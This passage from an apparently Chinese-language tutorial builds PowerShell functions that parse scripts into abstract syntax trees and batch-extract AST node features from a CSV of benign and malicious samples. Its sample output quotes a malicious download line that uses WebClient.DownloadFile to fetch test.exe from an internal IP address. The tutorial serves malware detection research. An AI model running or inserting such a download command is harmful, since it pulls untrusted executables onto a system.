 ```
    $hierarchy[$id] | ForEach-Object {
      # 获取当前AST对象的id
      $newid = $_.GetHashCode()

      # 递归其子节点（if any)
      if ($hierarchy.ContainsKey($newid))
      {
        Visualize-Tree -id $newid
      }
      $null = $result.Add($_.GetType().Name)
    }
  }

  # 使用AST根对象开始可视化
  Visualize-Tree -id $code.Ast.GetHashCode()

  # result存储根节点内容
  $strNode = add_blanks -arr $result
  Write-Output ($strNode,"`n")
  return $result
}

Convert-CodeToAst -str .\data\example-002.ps1

```

输出结果如下图所示：

此外，本文给出一个真实攻击案例，看看它是否能有效还原对应的AST和节点。

生成结构如下图所示。

---


### 3.循环读取PS并提取AST

假设存在data.csv文件，包含四条Powershell脚本。涉及正常和异常家族，接下里我们将它转换为AST节点信息，并存储至新的CSV中。

使用命令如下：

```
# 函数：批量读取文件
function Read_csv_powershell {
  param (
    [parameter(Mandatory=$true)]
    [System.String]$inputfile,
    [System.String]$outputfile
  )

  # 读取CSV文件
  $content = Import-CSV $inputfile
  $list = [System.Collections.ArrayList]@()
  foreach($line in $content) {
    $no = $line.("no")
    $code = $line.("decoded code")
    $name = $line.("family name")
    # Write-Output($no, $code, $name)

    # 转换抽象语法树AST
    try {
      $str = Convert-CodeToAst -str $code
      Write-Output($str)
    } catch [System.Exception] {
      'exception info:{0}' -f $_.Eception.Message
      continue
```

[NamedBlockAst]: $a = 1
[NamedBlockAst]: powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe')